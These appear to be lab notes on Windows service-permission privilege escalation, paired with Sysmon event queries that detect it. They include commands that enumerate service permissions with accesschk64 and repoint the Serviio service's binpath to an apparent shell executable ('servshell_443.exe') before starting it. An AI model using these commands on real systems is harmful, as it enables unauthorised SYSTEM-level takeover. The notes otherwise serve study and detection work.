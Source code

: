 ```pwsh
Get-SysmonEvent 13 "06/30/2021 12:49:31" "06/30/2021 12:49:33" | Format-List
```

1. Writes `0x00000003` to the `Start` key of the hvaukz service. This sets the new service to a `Manual` start-up, rather than when the system boots.
2. Sets the `ImagePath` key of the `hvaukz` service to the named pipe.
3. Changes the value of the `Start` key for the hvaukz service. The value `0x00000004` indicates that the service will be changed from Manual to `Disabled`.

```pwsh
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\hvaukz
```

View the `ProcessCreate` event

```pwsh
Get-SysmonEvent 1 "06/30/2021 12:49:31" "06/30/2021 12:49:33" | Format-List
```

### Attacking Service Permissions

When querying services with Service Control in PowerShell, use the `sc.exe` filename and not just `sc`.

The `Set-Content` cmdlet in PowerShell can be abbreviated with `sc`, and the PowerShell prompt prioritizes cmdlets over Windows commands.

```pwsh
sc.exe qc Serviio
```

Enumerate the permissions of installed services

* `-c` argument to specify a Windows Service by name, the wildcard * to query all Windows services
* `-l` for the full security descriptor

```pwsh
.\accesschk64.exe -c Serviio -l
```

```pwsh
C:\Windows\system32\sc.exe config Serviio binpath= 'C:\tools\servshell_443.exe'
net start serviio
```

Examine the `ProcessCreate` event (sc.exe made the configuration change)

```pwsh
Get-SysmonEvent 1 "7/1/2021 10:42:00" "7/1/2021 10:42:59" | Format-List
```

Review the `RegistryEvent` entry (`HKLM\System\CurrentControlSet\Services\Serviio\ImagePath` Windows Registry key is changed)

```pwsh
Get-SysmonEvent 13 "7/1/2021 10:42:00" "7/1/2021 10:42:59" | Format-List
```

```pwsh
Get-SysmonEvent 1 "7/1/2021 10:56:09" "7/1/2021 10:56:11" | Format-List @{ Label = 'UtcTime'; Expression = { $_.properties[1].value }}, @{ Label = 'Image'; Expression = { $_.properties[4].value }}, @{ Label = 'ProcessId'; Expression = { $_.properties[3].value }}, @{ Label = 'CommandLine'; Expression = { $_.properties[10].value }}, @{Label = 'User'; Expression = { $_.properties[12].value }}, @{ Label = 'ParentImage'; Expression = { $_.properties[20].value }}, @{ Label = 'ParentProcessId'; Expression = { $_.properties[19].value }}
```
